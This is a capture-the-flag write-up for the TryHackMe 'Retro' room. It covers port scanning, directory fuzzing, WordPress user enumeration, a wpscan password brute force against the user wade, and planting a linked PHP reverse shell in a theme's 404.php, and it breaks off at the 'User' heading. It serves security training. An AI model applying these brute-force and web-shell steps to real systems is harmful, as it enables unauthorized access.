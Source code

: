# Retro

![image](https://user-images.githubusercontent.com/5285547/131119489-6feda4b6-44b3-41aa-b3fa-bcb22ece0b84.png)

Room link: https://tryhackme.com/room/retro

Room IP: 10.10.22.148  
*\* for me your's will be different*

## Enumeration


* Nmap 

```
PORT     STATE SERVICE
80/tcp   open  http
3389/tcp open  ms-wbt-server
```

* -sCV

```
PORT     STATE SERVICE       VERSION
80/tcp   open  http          Microsoft IIS httpd 10.0
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: IIS Windows Server
3389/tcp open  ms-wbt-server Microsoft Terminal Services
| rdp-ntlm-info: 
|   Target_Name: RETROWEB
|   NetBIOS_Domain_Name: RETROWEB
|   NetBIOS_Computer_Name: RETROWEB
|   DNS_Domain_Name: RetroWeb
|   DNS_Computer_Name: RetroWeb
|   Product_Version: 10.0.14393
|_  System_Time: 2021-08-27T11:32:23+00:00
| ssl-cert: Subject: commonName=RetroWeb
| Issuer: commonName=RetroWeb
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2021-08-26T11:19:26
| Not valid after:  2022-02-25T11:19:26
| MD5:   9269 09a9 b05b 293f 4a56 f70c 66b0 c167
|_SHA-1: 1c04 1ffc e75d 5f9f f772 12eb 5fcc c808 1b53 a3ed
|_ssl-date: 2021-08-27T11:32:23+00:00; +1s from scanner time.
```
---

* ffuf

```
ffuf -u http://10.10.22.148/FUZZ -w /usr/share/seclists/Discovery/Web-Content/raft-large-directories-lowercase.txt -mc all -fc 404

retro                   [Status: 301, Size: 149, Words: 9, Lines: 2]
```

Scanning the directories shows /retro endpoint

---

* Port 80

http://10.10.22.148/retro

The page shows us lots of posts from a guy called Wade about classic gaming. 
I noticed the site urls are simular to how wordpress are laid out. There is a login link at the bottom that resolves to a wordpress login.  
This confirms my suspicion, time to get wp-scan out. 

```
wpscan --url http://10.10.22.148/retro/

Interesting Finding(s):

[+] Headers
 | Interesting Entries:
 |  - Server: Microsoft-IIS/10.0
 |  - X-Powered-By: PHP/7.1.29
 
[i] User(s) Identified:

[+] wade
 | Found By: Author Posts - Author Pattern (Passive Detection)
```

We can see this is an IIS server (as confirmed in the nmap scan) and wade is the user.  
Let's try to brute his login for wordpress using wpscan

```
wpscan --url http://10.10.22.148/retro/ -U wade -P /usr/share/wordlists/rockyou.txt
```

While leaving the wpscan running, I checked out the web app further, where i noticed a strange comment. 

![image](https://user-images.githubusercontent.com/5285547/131134191-2fcbcebe-f271-4dd7-bbf4-7959c58dff63.png)

---

* Reverse shell

After logging into the admin portal, I first checked to see if I could edit a theme template, which I could. 
Editing the 404.php page with a php reverse shell (windows version: https://raw.githubusercontent.com/ivan-sincek/php-reverse-shell/master/src/php_reverse_shell.php) we can get a shell. 

Call after editing. 

```
http://10.10.22.148/retro/wp-content/themes/90s-retro/404.php
```

whoami?

![image](https://user-images.githubusercontent.com/5285547/131135864-c7d8b488-9f84-4237-85a1-a83c8b194b01.png)

--- 

## User


